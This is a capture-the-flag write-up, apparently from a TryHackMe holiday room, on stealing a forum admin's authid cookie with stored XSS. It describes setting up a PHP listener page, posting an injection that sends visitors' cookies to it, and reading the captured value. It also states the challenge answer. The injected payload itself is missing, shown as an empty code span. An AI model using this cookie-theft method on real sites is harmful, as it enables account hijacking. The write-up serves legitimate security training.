





## Introduction

> McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT   
> _we need to learn more about the christmas monster_   
> During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.  
> Access the machine at http://[your-ip-address]:3000 - it may take a few minutes to deploy.   

> [Check out the supporting material here](./Supporting_Docs.pdf).

> P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth.

## Questions

> What is the admin's authid cookie value?

td:lr Answer: **2564799a4e6689972f6d9e1c7b406f87065cbf65**

===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can start a web browser and navigate to the IP address provided:

`<ip>:3000`

We need to register for an account and log in. Then we will see a simple forum layout within:

For this exercise, we need to steal admin's authid cookie value and have it submitted to a remote page hosted by us so we see its value.

So first we need to create a root directory, and create a index.html and a PHP page:

`mkdir cookiestealer` 
`cd cookiestealer/`  
`touch index.html`  
`touch cookiestealer.php`

Within the index.html, we can setup some parameters to test it's working:

> <html>  
> <head>  
> <title> Stealer!</title>  
> </head>  
> <body>  
> 

Let's set up our simple web hosting using php:

`php -S <ip>:80`  
then we open a web browser and go to that IP:

Ok our page is working, and we successfully grabbed the URL param.

We can also see the URL params on our command line:

Now all we need to do is perform a simple XSS injection into the forum, such that anyone who visits the forum will automatically have its cookie redirected to our web page.

Back at the forum, let's inject this into the forum post:

``

Now all we need to do is wait for the admin to visit the forum, then our XSS scripting post will redirect admin's cookie to our web page...

Check out our command line after a few minutes:

And there we got the admin's authid cookie value: **2564799a4e6689972f6d9e1c7b406f87065cbf65**

